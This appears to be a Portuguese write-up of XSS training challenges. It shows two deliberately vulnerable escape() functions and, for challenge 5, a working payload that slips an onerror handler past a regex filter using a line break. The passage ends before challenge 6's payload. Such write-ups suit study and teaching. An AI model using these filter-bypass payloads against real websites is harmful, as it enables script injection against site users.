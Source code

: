 #### Desafio 5: filtro de ">", "on...=" e "focus"
- Código vulnerável:
[![imagem-2025-05-12-014424622.png](https://i.postimg.cc/DZD4NWPL/imagem-2025-05-12-014424622.png)](https://postimg.cc/9RdfRQSQ)

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}        
```
- Payload funcional:
``` bash
"type=image src onerror 
="prompt(1)
```
- Explicação:

A função utilizada nesta fase substitui qualquer sequência que comece com `on` seguida de `=`, `>` e a palavra `focus` por `_`. Para contornar esse acontecimento o payload usa `onerror =` com um salto de linha antes do `=`, burlando a regex.
[![imagem-2025-05-12-015406132.png](https://i.postimg.cc/4dc0SSD5/imagem-2025-05-12-015406132.png)](https://postimg.cc/ph2k9qXh)

#### Desafio 6: redirecionamento via form e src=javascript:

- Código vulnerável:
[![imagem-2025-05-12-015740531.png](https://i.postimg.cc/Fz8VXr0k/imagem-2025-05-12-015740531.png)](https://postimg.cc/FkbLjQWh)

```bash
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}        
```